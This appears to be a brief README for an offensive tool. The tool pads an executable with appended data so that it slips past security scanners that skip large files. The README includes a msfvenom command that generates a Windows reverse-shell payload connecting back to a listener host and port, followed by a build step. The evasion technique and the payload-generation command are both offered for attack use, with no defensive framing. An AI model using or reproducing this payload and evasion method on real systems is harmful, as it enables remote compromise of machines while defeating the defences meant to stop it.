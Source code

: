 # Concept

Usage of file bloating through appending data to executable to bypass security checks based of file size

## The executable used was generated as follows:
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o test.exe
```

# Compiling

```bash
$ make
```